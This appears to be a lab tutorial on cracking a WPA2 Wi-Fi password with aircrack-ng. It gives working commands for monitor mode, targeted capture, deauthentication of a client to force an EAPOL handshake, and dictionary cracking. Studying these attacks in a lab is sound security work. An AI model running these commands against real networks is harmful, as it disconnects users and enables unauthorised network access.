






# WIFI Cracking

## Requirements
* [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) - `Already installed in Kali distro`

## Demo setup

For the following demo I'm using a Lab setup to simulate a `real world` use case:
* Access point (AP)
    * Android device #1 with AP mode enabled with WPA2
    * Set an easy password like `slipknot` or `metallica`
* WIFI Client
    * Android device #2
* Attacker
    * Kali Linux VM with an external USB network adapter [TL-WN722N](https://www.amazon.es/TP-LINK-TL-WN722NV2-Adaptador-inal%C3%A1mbrico-10-6-10-11/dp/B002SZEOLG)



## Attack!

1. Setup the network adapter in monitor mode or promiscous

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0 
```

2. Do a quick scan to get information about AP's nearby

```bash
sudo airodump-ng wlan0mon
```
 


3. Start a sniffing session capturing all packets directed to our target.

```bash
sudo airodump-ng -w demo -c 11 --bssid E6:10:XX:XX:XX:XX wlan0mon
```



> Keep the session open. Next we will force a reconnection to gather a EAPOL handshake


4. Send a deauthentication packet to our target, spoofing a client already connected to the AP. This action will force a reconnection, sending a 4-Way Handshake (EAPOL) which we will use to crack the AP PSK

```bash
sudo aireplay-ng --deauth 2 -a E6:10:XX:XX:XX:XX -c 92:8C:XX:XX:XX:XX wlan0mon
```



> Notice the client is being disconnected from the network. After an automatic reconnection, we captured the EAPOL handshake!


5. Just to make sure, let's check the pcap file with wireshark to search for handshakes

```bash
wireshark demo-03.cap & 
```



6. Now, we will perform a brute-force attack over the handshake captured using an existing dictionary

```bash
aircrack-ng demo-03.cap -w /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```



Done! You cracked the password `slipknot` a super secure one ;)


## Cleanup

Disable the monitor mode and restore networking processes

```bash
sudo airmon-ng stop wlan0mon
sudo service networking restart
sudo service NetworkManager restart
```

## References
- https://www.aircrack-ng.org/doku.php
- https://blogs.dsu.edu/digforce/2023/07/11/penetrating-networks-by-cracking-wpa2/
- https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html#wpawpa2-psk 


